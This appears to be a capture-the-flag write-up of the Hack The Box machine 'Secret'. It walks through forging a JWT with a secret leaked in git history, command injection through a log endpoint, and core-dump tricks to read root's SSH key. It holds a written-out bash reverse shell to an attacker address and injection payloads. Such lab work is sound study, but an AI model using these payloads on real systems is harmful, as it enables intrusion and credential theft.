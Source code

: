 ```yaml
---
title: htb secret
author: Yuchao
date: 2021-10-30 00:00:00 +0000
categories: [sec]
tags: [htb]
mermaid: true
---
```


## nmap
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.120
nmap -p 22,80,3000 -sCV -oA scans/nmap-tcpscripts 10.10.11.120
```

## See 80, 3000 port run the same thing:
1. maybe 80 is a reverse proxy of 3000.
2. maybe one developer version, one production version.
3. some misconfiguration

## Directory discovery
```bash
feroxbuster -u http://10.10.11.120
```

## use API by document
```bash
# /api/user/register
curl -d '{"name":"0xdf0xdf","email":"dfdfdfdf@secret.com","password":"password"}' -X POST http://10.10.11.120/api/user/register -H 'Content-Type: Application/json'
# /api/user/login
curl -d '{"email":"dfdfdfdf@secret.com","password":"password"}' -X POST http://10.10.11.120/api/user/login -H 'Content-Type: Application/json'
```
- -d data
- -X method
- -H header
- It supports these protocols: DICT, FILE, FTP, FTPS, GOPHER, GOPHERS, HTTP, HTTPS, IMAP, IMAPS, LDAP,  LDAPS,  MQTT,  POP3,  POP3S, RTMP,  RTMPS,  RTSP, SCP, SFTP, SMB, SMBS, SMTP, SMTPS, TELNET or TFTP.
- after the request, got a JWT.

## nginx
- port 80 is same with port 3000. 3000 does not have NGINX.
- suspect NGINX is just there to proxy for Express.

## analysis the source
- nodejs express application

#### find Token generation
``` javascript
// Dotenv loads environment variables from a .env file into process.env
const dotenv = require('dotenv')
dotenv.config();
```
{: .nolineno file="index.js" }

``` javascript
// create jwt
const jwt = require("jsonwebtoken");
const token = jwt.sign({ _id: user.id, name: user.name , email: user.email}, process.env.TOKEN_SECRET )
res.header('auth-token', token).send(token);
const verified = jwt.verify(token, process.env.TOKEN_SECRET);
```
{: .nolineno file="/routes/auth.js" }

#### find git information
```bash
git log --oneline
git show 67d8da7
```
get the TOKEN_SECRET from git old version

#### find some api need "admin"`s token
- like ``` /api/priv ``` and ``` /api/logs ```

## Forge JWT
#### decode
``` pip3 install pyjwt ```
``` python
import jwt
token='eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoiMHhkZjB4ZGYiLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.rMfMsdYkfSbl4hr1RJFwY3qWfrA3LSWVlzUON_9EW_A'
secret='gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE'
# decode
jwt.decode(token, secret, algorithms=["HS256"])
# result-> {'_id': '617825332c2bab0445c48462', 'name': '0xdf0xdf', 'email': 'dfdfdfdf@secret.com', 'iat': 1635263828}
```
#### Create Token
```python
j = jwt.decode(token, secret, algorithms=["HS256"])
j['name'] = 'theadmin'
jwt.encode(j, secret, algorithm="HS256")
# result-> eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.cRgg1KkYXYSwz1xpknTFWTHnx8D-7UMewMubwAGsvQ8
```

#### try to use
```bash
curl -s 'http://10.10.11.120/api/priv' -H "auth-token: {token}" | jq .
```

## Command Injection
```javascript
if (name == 'theadmin'){
    const getLogs = `git log --oneline ${file}`;
    exec(getLogs, (err , output) =>{
```
try to manituplate to -> ``` git log --oneline; [any command] ```
``` curl -s 'http://10.10.11.120/api/logs?file=;ping+-c+1+10.10.14.6' -H "auth-token: {token}" | jq -r . ```
attacker machine -> ``` sudo tcpdump -ni tun0 icmp ```

Force to use G (Get) method.
- -d,  --data,  --data-binary  or --data-urlencode to be used in an HTTP GET request instead of the POST request.
```bash
curl -s -G 'http://10.10.11.120/api/logs' \
--data-urlencode 'file=/dev/null;id' \
-H "auth-token: {token}" \
| jq -r .
```

#### reverse shell
```bash
curl -s -G 'http://10.10.11.120/api/logs' \
--data-urlencode "file=>/dev/null;bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'" \
-H "auth-token: {token}" \
| jq -r .
```

attacker`s machine: ```  nc -lnvp 443 ```

## privesc

#### get information from coredump.

an suid program
```c
filecount(path, summary);
// source code of "count" program
// drop privs to limit file write
setuid(getuid());
// Enable coredump generation
prctl(PR_SET_DUMPABLE, 1);
printf("Save results a file? [y/N]: ");
res = getchar();
```
{file="code.c" }

- ```  ps auxww | grep count ``` find pid of the program
- background the program at getchar()
- find file handler in ``` /proc/[pid]/fd ```
- find "/root/.viminfo" as input file path can be readable
- as we can not access "/root", we can not ``` cat /root/.viminfo ```
- but we can read .viminfo from file handler
- We can get the SSH key from it.

#### another way, from Crash Dump

- Because Enabled coredump generation
- When a program crashes, the system stores the crash dump files in ``` /var/crash ```
- input ``` /root/.ssh/id_rsa ``` as path input
- ```  kill -l ``` list kill signals
- ```  kill -SIGSEGV {pid} ``` send a segmentation fault
- ``` /var/crash$ apport-unpack _opt_count.1000.crash /tmp/0xdf ``` decompress the dump into a given directory
- ``` strings -n 30 CoreDump ```
- then get the SSH key from it.

